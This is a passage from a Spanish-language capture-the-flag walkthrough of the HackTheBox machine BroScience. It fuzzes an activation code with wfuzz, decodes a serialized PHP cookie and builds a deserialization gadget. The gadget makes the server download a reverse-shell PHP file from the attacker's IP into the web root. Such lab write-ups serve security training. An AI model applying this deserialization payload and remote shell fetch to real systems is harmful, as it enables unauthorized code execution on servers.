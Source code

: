 ```
❯ wfuzz --hh=1256 -c -z file,codigos.php 'https://broscience.htb/activate.php?code=FUZZ'

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                      
=====================================================================

000000501:   200        27 L     65 W       1251 Ch     "9RLps9HakHqodR6BQGz3HcHux72To6ei"
```

Y listo, ya puedes iniciar sesión en la web. Ahora vemos la cookie "user-prefs" que vemos que está en base64, si lo decodificamos vemos lo siguiente

```
❯ echo "Tzo5OiJVc2VyUHJlZnMiOjE6e3M6NToidGhlbWUiO3M6NToibGlnaHQiO30=" | base64 -d
O:9:"UserPrefs":1:{s:5:"theme";s:5:"light";}
```

Si vemos en el script de "utils.php" vemos que las cookies son serializadas y el servidor la deserializa para interpretarla. Con esto ya sabemos que podemos efectuar un "deserialization Attack"

```
function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}
```

Nos copiamos un script de [php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) de monkey pentester 

Ahora modificamos el "utils.php" al final del script para cargar un recurso de nuestra máquina al servidor


```php
class AvatarInterface {
    public $tmp = "http://10.10.16.68/shell.php";
    public $imgPath = "./shell.php"; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

echo base64_encode(serialize(new AvatarInterface));

?>
```
Le damos permisos de ejecución y lo ejecutamos
